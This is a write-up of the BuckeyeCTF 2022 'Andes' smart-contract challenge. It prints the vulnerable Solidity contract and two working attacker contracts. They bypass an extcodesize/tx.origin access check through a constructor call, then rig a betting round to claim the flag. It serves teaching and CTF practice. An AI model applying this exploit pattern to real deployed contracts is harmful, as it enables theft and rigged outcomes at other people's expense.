

# Andes - BuckeyeCTF 2022
## Introduction
Andes is a medium misc. task in the 2022 BuckeyeCTF. The project description is as follows:

Sometimes the house wins. Sometimes you both win. *Note: the token must be right-padded to 64 bytes if using Remix and passing as a function parameter.*
`nc -v nile.chall.pwnoh.io 13378`

## Process
Running the netcat gives the following:
```
Hello! The contract is running at 0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500 on the Goerli Testnet.
Here is your token id: 0x48278be4c045a5daee6ee66d70621cc4
Are you ready to receive your flag? (y/n)
```
The given token id is different every time the netcat is run. The given address for the contract links to a page on the Ethernet Goerli Testnet Network [here](https://goerli.etherscan.io/address/0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500). This links to a smart contract, Nile, written in [Solidity](https://docs.soliditylang.org/en/v0.8.17/#):

```Solidity
pragma solidity ^0.7.6;


contract Andes {
    // designators can designate an address to be the next random
    // number selector
    mapping (address => bool) designators;
    mapping (address => uint) balances;

    address selector;
    uint8 private nextVal;
    address[8][8] bids;

    event Registered(address, uint);
    event RoundFinished(address);
    event GetFlag(bytes32);

    constructor(){
        designators[msg.sender] = true;
        _resetBids();
    }

    modifier onlyDesignators() {
        require(designators[msg.sender] == true, "Not owner");
        _;
    }

    function register() public {
        require(balances[msg.sender] < 10);
        
        balances[msg.sender] = 50;

        emit Registered(msg.sender, 50);
    }

    function setNextSelector(address _selector) public onlyDesignators {
        require(_selector != msg.sender);
        selector = _selector;
    }

    function setNextNumber(uint8 value) public {
        require(selector == msg.sender);
        
        nextVal = value;
    }

    function _resetBids() private {
        for (uint i = 0; i < 8; i++) {
            for (uint j = 0; j < 8; j++) {
                bids[i][j] = address(0);
            }
        }
    }

    function purchaseBid(uint8 bid) public {
        require(balances[msg.sender] > 10);
        require(msg.sender != selector);

        uint row = bid % 8;
        uint col = bid / 8;

        if (bids[row][col] == address(0)) {
            balances[msg.sender] -= 10;
            bids[row][col] = msg.sender;
        }
    }

    function playRound() public onlyDesignators {
        address winner = bids[nextVal % 8][nextVal / 8];

        balances[winner] += 1000;
        _resetBids();

        emit RoundFinished(winner);
    }

    function getFlag(bytes32 token) public {
        require(balances[msg.sender] >= 1000);

        emit GetFlag(token);
    }

    function _canBeDesignator(address _addr) private view returns(bool) {
        uint size = 0;

        assembly {
            size := extcodesize(_addr)
        }

        return size == 0 && tx.origin != msg.sender;
    }

    function designateOwner() public {
        require(_canBeDesignator(msg.sender));
        require(balances[msg.sender] > 0);
        
        designators[msg.sender] = true;
    }

    function getBalance() public view returns(uint) {
        return balances[msg.sender];
    }
}
```
I chose to run the smart contracts on [Remix](https://remix.ethereum.org). Note: make sure to match the compiler version to the version called with `pragma solidity ^x.y.z;` at the top of the file. 

Reading through the contract, we can see that we want to call `getFlag()`. For this, we need `balances >= 1000`. The function `playRound()` adds 1000 to `balances` to whoever bids on the correct slot, which is determined by `nextVal`. This int can be set through `setNextNumber()`, which requires that whoever calls the function be a `selector` since `msg.sender` points to the person or contract who is currently connecting to the contract ([found here](https://stackoverflow.com/questions/48562483/solidity-basics-what-msg-sender-stands-for)). To do this, we can call `setNextSelector`, but this function is only available to addresses with the modifier `onlyDesignators()`, which requires `designators[msg.sender] == true`. To do this, we need to call `designateOwner()`, which requires `balances > 0` and will call `_canBeDesignator()`. We can set `balances = 50` by calling `register()`.

To be a designator, we need `size == 0` and `tx.origin != msg.sender`. `extcodesize(_addr)` returns the size of the code of an address. In order for it to be 0, it must be called from the constructor of another contract ([found here](https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract)). `msg.sender` is the immediate contract that calls the function, and `tx.origin` refers to the original external account that started the transaction ([found here](https://www.oreilly.com/library/view/solidity-programming-essentials/9781788831383/3d3147d9-f79f-4a0e-8c9f-befee5897083.xhtml)). 

In the diagram below:

If the Andes Contract calls `tx.origin` it would return Contract A.
If the Andes Contract calls `msg.sender` it would return Contract B. 

So for `tx.origin != msg.sender` to be true, we need to write two contracts in the form of Contract A and Contract B as shown above. For `_canBeDesignator` to return true, we need to have Contract A call Contract B's constructor which will call `register()` and `designateOwner`  from Andes.

The other thing to note is that `setNextNumber()` must be called by the selector. This results in the following diagram:

Contract A (can be found on Etherscan network [here](https://goerli.etherscan.io/address/0xc7ec10182730122b4beb9cf4eef2023709541e12)):
```Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.7.6;
import "./B.sol";
import "./Andes.sol";

contract A {
    Andes andes;

    function step1() public {
        B b = new B(); // constructor        
    }

    function step3() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("setNextNumber(uint8)",0));
    }
}
```

*Contract A on the Etherscan network*
The function calls from 2 days 6 hours ago were the original successful calls made during the CTF. The first one was deployment of the contract. It is interesting to note that despite the error (`Although one or more Error Occurred [execution reverted] Contract Execution Completed`) when calling `step3()`(in block 7900103), the rest of the function calls on contract B were successful. 

Contract B (can be found on Etherscan network [here](https://goerli.etherscan.io/address/0xe56bd57dae4a1a1cb40a9c96503f7b2b0c68691c)):
```Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.7.6;
import "./Andes.sol";
  
contract B {
    Andes andes;
    
    constructor() {

        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("register()",""));
        require(result, "Call has failed");

        (bool result2, ) = address(andes).call(abi.encodeWithSignature("designateOwner()",""));
        require(result2, "Call has failed"); // sets contract b as designator

    }

    function step2() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("setNextSelector(address)","address of A"));
        require(result, "Call has failed");
    }

    function step4() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("purchaseBid(uint8)",0));
        require(result, "Call has failed");
    }

    function step5() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("playRound()",""));
        require(result, "Call has failed");
    }

    function pleaseWork() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("getFlag(bytes32)",0x9b1c7e4b236d563a363eb3c8c260994b00000000000000000000000000000000));
        require(result, "Call has failed");
    }
}
```

*Contract B on the Etherscan network*
The function calls from 2 days 6 hours ago were the original successful calls. 
.png)
The transaction on Contract B for the function `pleaseWork()` which emits an event titled `GetFlag`. The given token id from the netcat can be seen in the Data section.

After deploying the contracts, running steps 1 through 5 and calling `pleaseWork()`, I was able to get the flag in the netcat by typing `y`. 

## Code
This section is dedicated to Solidity / Remix things. Taken directly from my writeup for [Nile](../Nile/README.md#Code), which was a similar Ethereum Goerli blockchain problem. 

Importing the contract and then calling the address in the constructor seemed to work better than other options such as:
```Solidity
address nile = 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af;
nile.call(abi.encodeWithSignature("function()",""));
```
or creating a Nile object:
```Solidity
Nile nile = Nile(0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af)
nile.call(abi.encodeWithSignature("function()",""));
```

Method calls from a different contract only worked for me with the following format: 
```Solidity
(bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
require(result, "Call has failed");
(bool result2, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
require(result2, "Call has failed");
```
Calling it in any other way gave me an out of gas but Contract Execution Completed error on the Etherscan blockchain network. Despite it saying that Contract Execution Completed, this did not work. Format found [here](https://ethereum.stackexchange.com/questions/84839/status-is-successful-but-got-internal-transaction-out-of-gas). `abi.encodeWithSignature()` found [here](https://ethereum.stackexchange.com/questions/9733/calling-function-from-deployed-contract). There should be no spaces between the parameters and the parameters should use their full names (`uint256` instead of just `uint`)([found here](https://ethereum.stackexchange.com/questions/67572/abi-encodewithsignature-did-not-work)). 
